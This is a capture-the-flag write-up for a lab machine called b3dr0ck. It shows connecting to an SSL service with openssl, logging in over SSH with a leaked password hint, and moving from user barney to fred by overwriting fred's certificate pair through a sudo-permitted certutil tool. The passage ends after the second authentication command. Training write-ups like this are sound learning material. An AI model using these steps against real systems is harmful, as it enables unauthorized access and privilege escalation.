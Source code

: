 #### PORT 54321

- Since this is running over SSL, we must connect using `openssl` instead of `nc`.

```
openssl s_client -connect 10.10.39.99:54321 -cert cert_file -key key_file
```

```
Welcome: 'Barney Rubble' is authorized.
b3dr0ck> whoami
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> 
```

- I tried running `ls`, but I got some hints.

```
b3dr0ck> ls
Unrecognized command: 'ls'

This service is for login and password hints
b3dr0ck> help
Password hint: d1{REDACTED}80dd (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck> 
```

- The password hint looked like a MD5 hash, but crackstation couldn't crack it. 

- Before I tried using john on it, I've decided to try SSH'ing as `barney` and using the hint as password.

- It worked. The string was not a hash, but the actual password.

- The first flag is in `/home/barney/barney.txt`.

#### PRIVESC --- barney -> fred

```
User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

- It has only two options available, to list current certificates and to create a new one.

- By listing the current certificates, we see that the user fred also got a pair, but we can't read them.

- However, I found out that if we create another pair with the same name, they'll get overriden.

```
sudo certutil fred fred
```

- Then, I've copied the cert and the key to my local box and I've authenticated against port `54321` the same way

```
openssl s_client -connect 10.10.39.99:54321 -cert fredcert -key fredkey 
```
